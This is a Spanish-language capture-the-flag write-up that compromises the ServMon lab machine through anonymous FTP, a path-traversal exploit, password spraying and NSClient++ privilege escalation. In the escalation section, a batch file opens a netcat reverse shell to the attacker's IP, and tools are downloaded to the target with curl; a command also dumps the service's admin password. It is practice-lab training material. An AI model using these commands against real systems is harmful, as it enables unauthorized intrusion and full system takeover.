

# Resolución maquina servmon

**Autor:** PepeMaquina  
**Fecha:** 28 de octubre de 2025  
**Dificultad:** Easy 
**Sistema Operativo:** Windows  
**Tags:** Web, LFI, Service.

---
## Imagen de la Máquina

*Imagen: servmon.JPG*

## Reconocimiento Inicial

### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.10.10.184 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p21,22,80,135,139,445,5666,6063,6699,8443,49664,49665,49666,49667,49668,49669,49670 10.10.10.184 -oN targeted
~~~
### Enumeración de Servicios

~~~bash
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  07:35PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp    open  ssh           OpenSSH for_Windows_8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 c7:1a:f6:81:ca:17:78:d0:27:db:cd:46:2a:09:2b:54 (RSA)
|   256 3e:63:ef:3b:6e:3e:4a:90:f3:4c:02:e9:40:67:2e:42 (ECDSA)
|_  256 5a:48:c8:cd:39:78:21:29:ef:fb:ae:82:1d:03:ad:af (ED25519)
80/tcp    open  http
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5666/tcp  open  tcpwrapped
6063/tcp  open  tcpwrapped
6699/tcp  open  napster?
8443/tcp  open  ssl/https-alt
|_ssl-date: TLS randomness does not represent time
| http-title: NSClient++
|_Requested resource was /index.html
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     workers
|_    jobs
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-10-28T17:30:36
|_  start_date: N/A
~~~
Con la obtención de puertos, se puede ver que no es un entorno de ad, por lo que los ataques pensados deben enfocarse en una maquina windows nomar.

### Recursos en ftp
Un servicio que llama mi atención a primera vista es FTP, cuando encuentro esto abierto, siempre verifico si admite el acceso anónimo, asi que intentando ello.
~~~bash
ftp anonymous@10.10.10.184
Connected to 10.10.10.184.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49678|)
125 Data connection already open; Transfer starting.
02-28-22  07:35PM       <DIR>          Users
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49680|)
125 Data connection already open; Transfer starting.
02-28-22  07:36PM       <DIR>          Nadine
02-28-22  07:37PM       <DIR>          Nathan
226 Transfer complete.
ftp> cd nadine
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49682|)
125 Data connection already open; Transfer starting.
02-28-22  07:36PM                  168 Confidential.txt
226 Transfer complete.
ftp> get Confidential.txt
local: Confidential.txt remote: Confidential.txt
229 Entering Extended Passive Mode (|||49684|)
150 Opening ASCII mode data connection.
100% |***************************************************************************************************************|   168        0.74 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 6 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
168 bytes received in 00:00 (0.74 KiB/s)
ftp> cd ..
250 CWD command successful.
ftp> cd nathan
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49685|)
125 Data connection already open; Transfer starting.
02-28-22  07:36PM                  182 Notes to do.txt
226 Transfer complete.
ftp> get Notes\ to\ do.txt
local: Notes to do.txt remote: Notes to do.txt
229 Entering Extended Passive Mode (|||49687|)
125 Data connection already open; Transfer starting.
100% |***************************************************************************************************************|   182        0.82 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 4 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
ftp> exit
221 Goodbye.
~~~
Dentro del servicio se pudieron encontrar dos recursos que se procedieron a descargar a la maquina local para poder ver el contenido.
De ambos archivos, el que mas importa es "Confidential.txt" ya que menciona sobre una contraseña almacenada en la ruta de escritorio de un usuario en windows.
~~~bash
cat Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
~~~
Ademas de ello, tambien se agregan los dos usuarios encontrados en el servicio ftp como posibles usuarios dentro del servidor windows.
~~~bash
cat users     
nadine
nathan
~~~

### Enumeración página web
En el escaneo de puertos se vio una página web abierta, por lo que al inspeccionarla se ve que es "NVMS-1000".

Al intentar buscar credenciales por defecto se encontro "admin:123456" pero estas no son validas, por lo que procedi a buscar alguna vulnerabilidad que funcione sin autenticacion, logrando encontrar la siguiente (https://www.exploit-db.com/exploits/47774).
Esto es basicamente un LFI, asi para probarla abri burpsuite e intercepte la solicitud original.

Y se modifico por el LFI de prueba de la PoC.

Logrando obtener un resultado prometedor, pero que deberia buscar con este LFI.
Si bien recuerdo, en el recurso FTP menciona sobre una contraseña almacenada en el directorio de escritorio del usuario nathan, por lo que suponiendo que este sitio web lo hostea nathan, podria obtener esa contraseña, asi que modificando la ruta del LFI.

BINGO!!!
Se pudo obtener una lista de contraseñas.
De esta forma se hizo un ataque de password spray para probar cada una de estas contraseñas con un usuario que tenemos.
~~~bash
sudo netexec smb 10.10.10.184 -u users -p pass --continue-on-success
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)                                                                                                                                                          
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] Connection Error: Error occurs while reading from remote(104)
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE
~~~
Obteniendo un resultado valido para "nadine", como solo se tiene abierto el puerto 22 para interactuar con el servidor, se prueba ello para obtener acceso.
~~~bash
ssh nadine@10.10.10.184                                                          
The authenticity of host '10.10.10.184 (10.10.10.184)' can't be established.
ED25519 key fingerprint is SHA256:WctzSeuXs6dqa7LqHkfVZ38Pppc/KRlSmEvNtPlwSoQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.184' (ED25519) to the list of known hosts.
nadine@10.10.10.184's password: 
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>
~~~
Obteniendo acceso valido.

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con las ultimas credenciales ya probadas y verificadas, se prueba intentar obtener acceso mediante ssh, obteniendo asi la user flag.
~~~bash
nadine@SERVMON C:\Users\Nadine>tree /f
Folder PATH listing
Volume serial number is 20C1-47A1
C:.
├───3D Objects
├───Contacts
│       user.txt
│
├───Documents
├───Downloads
├───Favorites
│   │   Bing.url
│   │
│   └───Links
├───Links
│       Desktop.lnk
├───Music
├───Pictures
├───Saved Games
├───Searches
└───Videos

nadine@SERVMON C:\Users\Nadine>cd Desktop

nadine@SERVMON C:\Users\Nadine\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 20C1-47A1

 Directory of C:\Users\Nadine\Desktop

02/28/2022  08:05 PM    <DIR>          .
02/28/2022  08:05 PM    <DIR>          ..
10/28/2025  10:23 AM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   6,341,951,488 bytes free

nadine@SERVMON C:\Users\Nadine\Desktop>type user.txt
<Encuentre su user flag>
~~~

---
## Escalada de Privilegios
Al realizar enumeración basica, verificando privilegios y/o permisos, no se encontró nada útil. 
Entonces recapitulando todo, recorde que tenia mas puertos abiertos al realizar el escaneo, asi que al no ser un ad no tendria mucho sentido ver tantos puertos abiertos, asi que revisando uno por uno, encontre el puerto 8443 abierto y buscando esto en internet, se encontró que existe una posible "Privilege Escalation" con ella (https://www.exploit-db.com/exploits/46802).

Entonces replicando la PoC, esta menciona que se puede ver credenciales de administrador en cierta ruta, replicando esto.
~~~bash
PS > cd C:\Program Files\NSClient++
PS C:\Program Files\NSClient++> .\nscp.exe  web -- password --display
Current password: ew2x6SsGTxjRwXOT
~~~
Obteniendo una contraseña, ahora debo loguearme y habilitar ciertos modulos.

Al colocar la contraseña esta no funciona. 

### Port forwarding servicio NSClient++
Pero pensando, como es parte de la escalada de privilegios, puede que tenga una protección para que solo se pueda acceder a ella desde dentro del servidor, por lo que se hace un port forwarding aprovechando que tiene ssh.
~~~bash
ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
nadine@10.10.10.184's password: 
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved. 
                                                     
nadine@SERVMON C:\Users\Nadine>
~~~
Con este comando envio todo el puerto 8443 del servidor a mi puerto como localhost.
Entrando como local host y probando la contraseña, ahora si se tiene acceso.

Ahora siguiendo la PoC, se debe crear un script para que corra un .bat.

Ahora se debe pasar el script de .bat y el nc64 al servidor, para que esto corra y realice una reverse shell como root.
Primero abriendo un servidor python en mi maquina atacante con los archivos necesarios.
~~~bash
cat evil.bat  
@echo off
c:\temp\nc64.exe 10.10.14.4 443 -e cmd.exe

python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.184 - - [28/Oct/2025 16:10:26] "GET /nc64.exe HTTP/1.1" 200 -
10.10.10.184 - - [28/Oct/2025 16:10:49] "GET /evil.bat HTTP/1.1" 200 -

~~~
Y pasandolo a windows
~~~bash
nadine@SERVMON C:\>mkdir temp

nadine@SERVMON C:\>cd temp

nadine@SERVMON C:\temp>curl http://10.10.14.4/nc64.exe -o nc64.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 45272  100 45272    0     0  45272      0  0:00:01 --:--:--  0:00:01 50867

nadine@SERVMON C:\temp>curl http://10.10.14.4/evil.bat -o evil.bat
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    53  100    53    0     0     53      0  0:00:01 --:--:--  0:00:01   121

nadine@SERVMON C:\temp>ls

    Directory: C:\temp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/28/2025  12:55 PM             51 evil.bat
-a----       10/28/2025  12:55 PM          38616 nc64.exe
~~~
Con ello ya se puede reiniciar el servicio.

Una vez haya terminado de reiniciar el servicio, yo debo abrir un escucha con mi maquina.
~~~bash
rlwrap -cAr nc -nvlp 443 
listening on [any] 443 ...
~~~
En teoria ya debaria obtener una conexión, pero no ocurre nada, asi que presionando todo lo que pude dentro de la pagina, al presionar la opcion "queries" se envio la reverseshell como autority system, no entiendo porque, pero funciono.
~~~bash
rlwrap -cAr nc -nvlp 443 
listening on [any] 443 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.184] 49766
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system
~~~

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con acceso a la maquina con privilegios elevados, ya tengo acceso como administrador y ver la root flag.
~~~powershell
C:\Program Files\NSClient++>cd /users/administrator
cd /users/administrator

C:\Users\Administrator>cd desktop
cd desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 20C1-47A1

 Directory of C:\Users\Administrator\Desktop

02/28/2022  07:56 PM    <DIR>          .
02/28/2022  07:56 PM    <DIR>          ..
10/28/2025  01:07 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   6,264,160,256 bytes free

C:\Users\Administrator\Desktop>type root.txt
<Encuentre su propio root flag>
~~~
🎉 Sistema completamente comprometido - Root obtenido

